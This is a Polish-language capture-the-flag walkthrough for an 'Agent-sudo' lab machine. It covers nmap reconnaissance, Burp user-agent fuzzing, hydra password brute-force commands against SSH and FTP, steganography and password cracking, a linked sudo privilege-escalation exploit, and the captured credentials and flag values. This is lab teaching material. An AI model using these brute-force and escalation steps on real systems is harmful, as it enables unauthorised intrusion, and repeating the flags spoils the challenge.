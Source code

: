 # Agent-sudo
IP=10.10.229.159

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.229.159
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-30 04:10 EDT
Nmap scan report for 10.10.229.159
Host is up (0.082s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.28 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Na stronie widzimy notkę od Agenta R, że agenci powinni używać swoich kryptonimów zamiast user-agent, aby uzyskać dostęp do strony. Po nazwie Agenta R można się domyślić, że chodzi o litery alfabetu. Przechodzimy do analizy strony za pomocą narzędzia BurpSuite:

![Burp](img/Burp.JPG)

Następnie przesyłamy to żądanie do Intruder'a i przygotowujemy atak zmieniając pole user-agent na litery alfabetu:

![Req](img/Req.JPG)

![Position](img/Position.JPG)

![Payloads](img/Payloads.JPG)

![Attack](img/Attack.JPG)

Widzimy, że żądanie z literą "C" dało inną długość odpowiedzi oraz status 302, czyli strona została znaleziona. Przechodzimy zatem do Intercept'a, zmieniamy wartość pola User-Agent na literę "C" i przesyłamy zmodyfikowane żądanie:

![Intercept](img/Intercept.JPG)

W odpowiedzi uzyskujemy dostęp do ukrytej strony:

![Chris](img/Chris.JPG)

Dowiadujemy się, że użytkownik chris ma słabe hasło. Możemy to wykorzystać przeprowadzając atak brute-force na serwisy takie jak SSH lub FTP:

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ssh://10.10.229.159
```
```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.229.159
```

Po chwili udaje się złamać hasło do serwisu FTP:

![Hydra](img/Hydra.JPG)

### Port 21

Logujemy się do serwisu FTP i pobieramy wszystkie pliki:

```
chris:crystal
```

![FTP](img/FTP.JPG)

Z wiadomości dowiadujemy się, że w zdjęciach ukryte jest hasło:

![Steg](img/Steg.JPG)

Przechodzimy do steganografii. Za pomocą narzędzia "binwalk" otrzymujemy informację, w którym zdjęciu ukryte są pliki:

![Binwalk](img/Binwalk.JPG)

Wydobywamy ukryte pliki:

![Extract](img/Extract.JPG)

Korzystając z narzędzia JohnTheRipper łamiemy hasło:

![John](img/John.JPG)

```
alien
```

Teraz za pomocą poniższej komendy możemy rozszyfrować plik zip:

```
7z e 8702.zip
```

Odczytujemy ukrytą wiadomość:

![AgentR](img/AgentR.JPG)

Dekodujemy nazwę za pomocą CyberChef'a:

![Chef](img/Chef.JPG)

```
Area51
```

Znając hasło używamy narzędzia steghide do ekstrakcji ukrytych informacji:

![James](img/James.JPG)

Dostajemy login i hasło:

```
james:hackerrules!
```

### Port 22

Logujemy się do systemu komendą:

```
ssh james@10.10.229.159
```

W pliku user_flag.txt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
b03d975e8c92a7c04146cfa7a5a313c7
```

Pobieramy zdjęcie znalezione w katalogu domowym:

```
scp james@10.10.229.159:Alien_autospy.jpg /home/kali
```

Znajdujemy to zdjęcie w internecie na stronie [foxnews](https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment?fbclid=IwAR0Qze0QmMWd0STeGhIOkXO_Gv-dgFxDn3fBwa5JYqGMglG0pDW0Zu5DxkA) pod nazwą "Roswell alien autopsy":

![Alien](img/Alien.JPG)

## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika james w systemie:

![Sudo](img/Sudo.JPG)

Użutkownik james nie jest w stanie wykonać komendy "bash". Sprawdzamy czy instnieją jakieś podatności:

![Google](img/Google.JPG)

Wykorzystując [exploita](https://www.exploit-db.com/exploits/47502) możemy uzyskać uprawnienia root'a:

![Exploit](img/Exploit.JPG)

W pliku root.txt znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
b53a02f55b57d4439e3341834d70c062
```

Do zobaczenia na kolejnych CTF-ach!


